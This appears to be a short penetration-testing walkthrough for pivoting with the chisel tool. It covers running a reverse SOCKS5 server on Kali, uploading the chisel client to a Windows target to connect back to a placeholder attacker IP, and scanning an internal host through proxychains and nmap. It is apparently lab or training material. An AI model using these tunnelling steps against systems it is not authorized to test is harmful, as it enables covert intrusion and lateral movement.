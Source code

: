 download chisel on https://github.com/jpillora/chisel/releases 

download **[chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) for kali and [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz) for target windows.**

prepare chisel server on kali : 

```bash
chmod +x chisel
```

open server on kali : 

```bash
./chisel server -p <Local_Attacker_Port> --socks5 --reverse
```

![image](https://user-images.githubusercontent.com/55615071/189031440-23102649-c833-4ace-a1a0-10f33dc3388e.png)


upload chisel.exe to windows target and run following command.

```bash
chisel.exe client <attacker_IP>:<Local_listening_port> R:socks &
```

![image](https://user-images.githubusercontent.com/55615071/189031515-c4c54896-bd04-40c0-bc7b-43dc82c63afb.png)


![image](https://user-images.githubusercontent.com/55615071/189064300-dc57330d-61dc-476b-b9cf-72afb1540b39.png)


Remind : & on command is meaning run chisel on background

After run chisel client, check state connect on chisel server. it should be like this

![image](https://user-images.githubusercontent.com/55615071/189031556-d2728e7c-db24-4c89-8c04-bbe52aa36687.png)

try testing by use proxychains before command

![image](https://user-images.githubusercontent.com/55615071/189031576-396b1d6c-7d26-45c6-9793-1d876845a043.png)

proxychains nmap -sT -Pn -sV -sC -p1-6000 192.168.239.129

![image](https://user-images.githubusercontent.com/55615071/189031936-dd2bbdcb-284d-4d58-abd8-e2cb0d3ddb9d.png)

![image](https://user-images.githubusercontent.com/55615071/189064326-048fdaef-8772-4380-8714-d35c40d8442e.png)
